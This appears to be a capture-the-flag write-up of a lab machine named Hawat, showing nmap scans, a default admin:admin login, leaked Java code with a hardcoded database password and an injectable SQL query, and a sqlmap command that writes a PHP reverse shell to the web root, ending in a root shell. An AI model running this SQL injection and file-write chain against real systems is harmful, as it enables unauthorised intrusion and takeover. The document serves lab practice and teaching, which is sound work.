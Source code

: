 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Hawat
- Description: 1.21 GigHawats
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 78:2f:ea:84:4c:09:ae:0e:36:bf:b3:01:35:cf:47:22 (RSA)
|   256 d2:7d:eb:2d:a5:9a:2f:9e:93:9a:d5:2e:aa:dc:f4:a6 (ECDSA)
|_  256 b6:d4:96:f0:a4:04:e4:36:78:1e:9d:a5:10:93:d7:99 (ED25519)
17445/tcp open   unknown
| fingerprint-strings: 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Mon, 29 Jan 2024 16:39:57 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
30455/tcp open   http         nginx 1.18.0
|_http-title: W3.CSS
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
50080/tcp open   http         Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
```

We have 3 websites, on random ports, let's dirsearch:

![](assets/images/2024-01-29-OFFSEC-hawat-writeup-image-1.png)

![](assets/images/2024-01-29-OFFSEC-hawat-writeup-image-2.png)

I attempt to login to this cloud instance with creds: `admin:admin`

It works and I find a zip file for the application on the 17445.

![](assets/images/2024-01-29-OFFSEC-hawat-writeup-image-3.png)

```java
public String checkByPriority(@RequestParam("priority") String priority, Model model) {
                // 
                // Custom code, need to integrate to the JPA
                //
            Properties connectionProps = new Properties();
            connectionProps.put("user", "issue_user");
            connectionProps.put("password", "ManagementInsideOld797");
        try {
                        conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
                    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
            System.out.println(query);
                    Statement stmt = conn.createStatement();
                    stmt.executeQuery(query);

        } catch (SQLException e1) {
                        // TODO Auto-generated catch block
                        e1.printStackTrace();
                }
```

I see there is a sqlinjection in this function when accessing the /issue/CheckByPriority in the priority field. I will exploit this by using sqlmap:

```bash
sqlmap -r sql.req  -p priority --file-write net/rev.php --file-dest /srv/http/rev.php
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.9#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:23:02 /2024-01-29/

[14:23:02] [INFO] parsing HTTP request from 'sql.req'
[14:23:02] [INFO] resuming back-end DBMS 'mysql' 
[14:23:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: priority (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: priority=Normal' AND (SELECT 8842 FROM (SELECT(SLEEP(5)))btrU)-- jECY
---
[14:23:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:23:02] [INFO] fingerprinting the back-end DBMS operating system
[14:23:02] [INFO] the back-end DBMS operating system is Linux
[14:23:03] [WARNING] expect junk characters inside the file as a leftover from original query
do you want confirmation that the local file 'net/rev.php' has been successfully written on the back-end DBMS file system ('/srv/http/rev.php')? [Y/n] Y
[14:23:04] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[14:23:10] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
11
[14:23:29] [INFO] adjusting time delay to 4 seconds due to good response times
7
[14:23:34] [INFO] the remote file '/srv/http/rev.php' is larger (117 B) than the local file 'net/rev.php' (74B)
[14:23:34] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.174.147'

[*] ending @ 14:23:34 /2024-01-29/
```

I also checked phpinfo on 30455 and saw that the directory it was hosted in is /srv/http so I uploaded the file there and got a shell

```bash
[root@hawat http]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@hawat http]#
```
## Privilege Escalation

No privesc needed, spawned as root!

best,
gerbsec